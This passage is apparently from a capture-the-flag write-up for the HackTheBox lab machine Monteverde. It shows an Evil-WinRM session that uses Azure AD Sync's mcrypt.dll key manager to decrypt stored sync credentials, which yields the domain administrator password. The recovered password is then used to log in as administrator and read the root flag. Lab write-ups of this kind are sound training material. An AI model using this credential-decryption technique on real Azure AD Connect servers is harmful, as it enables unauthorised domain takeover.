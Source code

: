 ```
*Evil-WinRM* PS C:\Users\mhope\Documents> add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll’
*Evil-WinRM* PS C:\Users\mhope\Documents> $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.LoadKeySet($entropy, $instance_id, $key_id)
*Evil-WinRM* PS C:\Users\mhope\Documents> $key = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.GetActiveCredentialKey([ref]$key)
*Evil-WinRM* PS C:\Users\mhope\Documents> $key2 = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.GetKey(1, [ref]$key2)
*Evil-WinRM* PS C:\Users\mhope\Documents> $decrypted = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
*Evil-WinRM* PS C:\Users\mhope\Documents> $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
*Evil-WinRM* PS C:\Users\mhope\Documents> $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
*Evil-WinRM* PS C:\Users\mhope\Documents> $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Domain: " + $domain.Domain)
Domain: MEGABANK.LOCAL
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Username: " + $username.Username)
Username: administrator
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Password: " + $password.Password)
Password: d0m@in4dminyeah!
```

We got the administrator password now: `d0m@in4dminyeah!`

```
root@kali:~/htb/monteverde# evil-winrm -u administrator -p 'd0m@in4dminyeah!' -i 10.10.10.172

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
12909612d2[...]
```
